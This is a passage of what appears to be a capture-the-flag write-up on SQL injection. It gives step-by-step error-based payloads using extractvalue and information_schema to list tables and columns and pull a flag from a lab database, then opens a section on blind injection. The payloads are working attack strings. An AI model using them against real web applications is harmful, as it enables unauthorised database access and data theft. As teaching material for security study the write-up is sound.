 ### Step 5. Get Table name
Just like in UNION injection, you can use information_schema.tables to list table names.
``` 
normaltic' and extractvalue(1, concat(0x3a, (select table_name from information_schema.tables where table_schema='errSqli'))) and '1'='1
```
![image](https://github.com/user-attachments/assets/a702e4ec-23fd-4876-ad94-fbee5656a26e)
Because SELECT table_name returns multiple rows, which concat() and extractvalue() can’t handle. Fix it by limiting to one row:

``` 
normaltic' and extractvalue(1, concat(0x3a, (select table_name from information_schema.tables where table_schema='errSqli' limit 0,1))) and '1'='1
```
![image](https://github.com/user-attachments/assets/077d5b9c-3713-4d6d-b4ce-587946b52473)

### Step 6. Get column name
Using the same method with information_schema.columns, we can extract column names:

``` 
normaltic' and extractvalue(1, concat(0x3a, ( select column_name from information_schema.columns where table_name='flagTable'limit 0,1))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/f54dedaa-f141-4f6b-8a30-cccb7e6ac021)
![image](https://github.com/user-attachments/assets/d48916ca-a473-4eb8-8991-9fbb77e5cdac)

### Step 7. Extract Data (FLAG)
Finally, let’s extract actual data — for example, a flag from the flag column:
```
normaltic' and extractvalue(1, concat(0x3a, (select flag from flagTable limit 0,1))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/f2df5eb6-8462-423d-b599-3c404674abc4)

Flag successfully extracted.


## 3. Process of Blind SQL Injection 

Blind SQL Injection is a technique used to extract information from a database when error messages are not displayed. It relies on differences in the website’s response depending on whether a condition is true or false.

Input 1: normaltic' and '1'='1
![image](https://github.com/user-attachments/assets/ee263dd7-7b1d-4d39-a843-ed6a5b956c72)
→ The condition is true, so the website responds normally.

Input 2: normaltic' and '1'='2
![image](https://github.com/user-attachments/assets/659de079-32bf-4332-8a58-f32bebe658c2)
→ The condition is false, so the result is different or missing.
